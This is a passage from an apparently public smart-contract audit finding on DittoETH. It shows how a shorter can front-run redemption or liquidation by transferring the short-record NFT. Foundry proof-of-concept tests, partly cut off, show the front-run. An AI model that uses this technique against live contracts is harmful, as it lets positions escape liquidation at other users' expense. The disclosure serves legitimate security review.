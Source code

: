 Same idea for liquidations, where [`PrimaryLiquidationFacet::liquidate`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L51-L51) through its [`onlyValidaShortRecord` modifier](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/AppStorage.sol#L86-L98) will revert in case if frontrun by a transfered SR.
Finaly, we see the same behavior here on [`SecondaryLiquidation::liquidateSecondary`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/SecondaryLiquidationFacet.sol#L63-L63)

## Impact
It is possible for a shorter to interfer with vital mechanism of Ditto ETH (redemptions/liquidation)

## Proof of Concept

Escaping redeeming:

```solidity
	function test_audit_EscapeRedeem() public { 
		address alice = sender; //Alice will front-run Bob's attempt to flag her short
		vm.label(alice, "Alice");
		address bob = receiver; //Bob will try to flag Alice's short 
		vm.label(bob, "Bob");
		address aliceSecondAddr = makeAddr("AliceSecondAddr");
		
		//A random user create a bid, Alice create a short, which will match with the user's bid
		fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, bob);
        fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, alice);
		//Alice then mint the NFT associated to the SR so that it can be transfered
		vm.prank(alice);
		diamond.mintNFT(asset, C.SHORT_STARTING_ID, 0);

		//ETH price drops from 4000 to 1500, making her position redeemable
		setETH(1500 ether);

		MTypes.ProposalInput[] memory proposalInputs = new MTypes.ProposalInput[](1);
        proposalInputs[0] = MTypes.ProposalInput({shorter: sender, shortId: C.SHORT_STARTING_ID, shortOrderId: 0});

		// Alice sees Bob attempt to liquidate her short, so she front-run him and transfer the SR
		vm.prank(alice);
		diamond.transferFrom(alice, aliceSecondAddr, 1);

        vm.prank(bob);
		vm.expectRevert(Errors.RedemptionUnderMinShortErc.selector);
        diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT, MAX_REDEMPTION_FEE);
	}	
```

Escaping liquidation:

```solidity
	function test_audit_EscapeLiquidation() public { 
		address alice = makeAddr("Alice"); //Alice will front-run Bob's attempt to flag her short
		address aliceSecondAddr = makeAddr("AliceSecondAddr");
		address bob = makeAddr("Bob"); //Bob will try to flag Alice's short 
		address randomUser = makeAddr("randomUser"); //regular user who created a bid order
		
		//A random user create a bid, Alice create a short, which will match with the user's bid
		fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, randomUser);
		fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, alice);
        fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT.mulU88(0.5 ether), receiver);
		//Alice then mint the NFT associated to the SR so that it can be transfered
		vm.prank(alice);
		diamond.mintNFT(asset, C.SHORT_STARTING_ID, 0);
```